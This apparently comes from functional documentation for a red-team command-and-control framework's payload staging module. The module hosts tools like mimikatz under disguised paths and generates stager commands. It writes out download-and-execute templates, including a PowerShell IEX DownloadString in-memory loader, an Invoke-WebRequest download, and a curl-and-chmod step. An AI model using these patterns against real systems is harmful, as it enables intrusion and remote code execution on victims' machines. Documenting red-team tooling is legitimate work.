

# Payload Delivery & Web Staging — Functional Documentation

## Purpose and Business Value

During red team operations, operators frequently need to host auxiliary tooling, secondary stage loaders, reconnaissance scripts, or decoy documents directly on existing C2 listener infrastructure. The **Payload Delivery & Web Staging** module provides:
- **Centralized File Staging**: Upload and host arbitrary files, scripts, or executables directly on active C2 listeners.
- **Dynamic Path Mapping**: Control the exact URI path where files are served to mimic legitimate web assets (e.g., `/updates/patch.exe` or `/assets/script.ps1`).
- **One-Click Stager Script Generation**: Produce pre-configured PowerShell and Bash download commands tailored to all active listeners.

---

## Actors and Triggers

- **Red Team Operator**: Uploads files to the web host repository, copies download commands for target staging, or deletes unneeded staged payloads.
- **Target Host / Downloader**: Issues HTTP/HTTPS requests to the listener to download the staged files during exploitation.

---

## Inputs and Outputs

### Inputs
- **Add File Form**:
  - **Path**: The URL path where the file will be accessible (e.g., `/tools/mimikatz.exe`).
  - **Description**: Administrative notes explaining the purpose of the file.
  - **PowerShell Script Checkbox**: Toggles whether the file is a PowerShell script (enabling in-memory `IEX` execution scripts).
  - **File Upload**: Browser file picker accepting files up to 50MB.

### Outputs
- **Staged Files Table** (`/hosting`):
  - Displays hosted files with URL path, description, type badge (`PowerShell` or `Binary`), formatted file size (`KB`, `MB`), and action buttons.
- **Download Scripts Modal**:
  - **PowerShell Download Command**:
    - *For Scripts*: In-memory execution: `IEX(New-Object Net.WebClient).DownloadString('http://...')`.
    - *For Binaries*: Disk-based download: `Invoke-WebRequest -Uri 'http://...' -OutFile 'filename.exe'`.
  - **Bash Download Command**:
    - Silent curl command with automatic `chmod +x` execution permission assignment for binaries.

---

## Operational Workflows

### 1. Staging and Delivering an Auxiliary Tool

---

## Business Rules and Edge Cases

- **Automatic Path Normalization**: If the operator leaves the **Path** field empty during upload, WebCommander automatically defaults the path to `/{filename}`.
- **Multi-Listener Support**: The script generator inspects all currently active listeners and dynamically provides separate download commands for each listener URL (HTTP vs. HTTPS, custom ports), allowing operators to select the optimal ingress path.

---

## Dependencies on Other Systems

- **Listeners**: Hosted files are exposed through active HTTP/HTTPS listeners.
- **TeamServer WebHost API**: Manages hosted file mappings (`/api/WebHost`).

For technical implementation details, see [Technical: Services & State](../../Technical/WebCommander/services-and-state.md).
